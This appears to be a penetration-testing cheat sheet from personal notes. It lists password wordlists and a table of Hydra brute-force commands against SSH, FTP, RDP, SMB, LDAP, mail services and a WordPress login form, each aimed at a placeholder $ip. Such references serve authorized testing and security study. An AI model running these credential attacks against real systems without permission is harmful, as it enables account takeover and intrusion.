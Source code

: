 # Wordlists
- Rockyou
- Seclists Default credentials
- Vedere la sezione [[Interesting Lists]]

#### Custom Wordlists
Crunch
#TODO 

# Tools
#### Hydra


| Command | Description |
| --- | --- |
| hydra -P password-file.txt -v $ip snmp | Hydra brute force against SNMP |
| hydra -t 1 -l admin -P /usr/share/wordlists/rockyou.txt -vV $ip ftp | Hydra FTP known user and rockyou password list |
| hydra -v -V -u -L users.txt -P passwords.txt -t 1 -u $ip ssh | Hydra SSH using list of users and passwords |
| hydra -v -V -u -L users.txt -p "known password" -t 1 -u $ip ssh | Hydra SSH using a known password and a username list |
| hydra $ip -s 22 ssh -l user -P big_wordlist.txt | Hydra SSH Against Known username on port 22 |
| hydra -l USERNAME -P /usr/share/wordlistsnmap.lst -f $ip pop3 -V | Hydra POP3 Brute Force |
| hydra -P /usr/share/wordlistsnmap.lst $ip smtp -V | Hydra SMTP Brute Force |
| hydra -L ./webapp.txt -P ./webapp.txt $ip http-get /admin | Hydra attack http get 401 login with a dictionary |
| hydra -t 1 -V -f -l administrator -P /usr/share/wordlists/rockyou.txt rdp://$ip | Hydra attack Windows Remote Desktop with rockyou |
| hydra -t 1 -V -f -l administrator -P /usr/share/wordlists/rockyou.txt $ip smb | Hydra brute force SMB user with rockyou: |
| hydra -l admin -P ./passwordlist.txt $ip -V http-form-post '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:S=Location' | Hydra brute force a Wordpress admin login |
| hydra -L usernames.txt -P passwords.txt $ip smb -V -f | SMB Brute Forcing |
| hydra -L users.txt -P passwords.txt $ip ldap2 -V -f | LDAP Brute Forcing |

#### Medusa
#TODO 